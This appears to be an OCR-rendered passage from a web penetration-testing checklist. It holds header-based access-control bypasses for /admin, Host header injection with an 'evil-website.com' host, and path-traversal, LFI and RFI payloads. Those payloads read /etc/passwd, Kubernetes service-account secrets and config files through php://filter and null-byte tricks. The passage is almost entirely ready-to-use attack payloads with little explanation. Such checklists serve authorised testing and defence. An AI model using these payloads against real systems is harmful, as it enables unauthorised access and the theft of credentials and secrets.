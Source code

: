     # Fake Origin - make GET request to accesible endpoint with:
    X-Original-URL: /admin
    X-Override-URL: /admin
    X-Rewrite-URL: /admin
    Referer: /admin
    # Also try with absoulte url https:/domain.com/admin
    
    # Method Override
    X-HTTP-Method-Override: PUT
    
    # Provide full path GET
    GET https://vulnerable-website.com/ HTTP/1.1
    Host: evil-website.com
    
    # Add line wrapping
    GET /index.php HTTP/1.1
     Host: vulnerable-website.com
    Host: evil-website.com
    
    # Wordlists
    https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers
    https://github.com/danielmiessler/SecLists/tree/bbb4d86ec1e234b5d3cfa0a4ab3e20c9d5006405/Miscellaneous/web/http-request-headers
    ```
    
- [ ]  RCE via Referer Header
- [ ]  Stored attacks
- [ ]  OS command injection
- Path traversal, LFI and RFI
    
    ```jsx
    # Basic LFI
    curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
    
    # If LFI, also check
    /var/run/secrets/kubernetes.io/serviceaccount
    
    # PHP Filter b64
    http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
    http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config
    http://10.11.1.111/maliciousfile.txt%00?page=php://filter/convert.base64-encode/resource=../config.php
    # Nullbyte ending
    http://10.11.1.111/page=http://10.11.1.111/maliciousfile%00.txt
    http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00
    # Other techniques
    https://abc.redact.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c
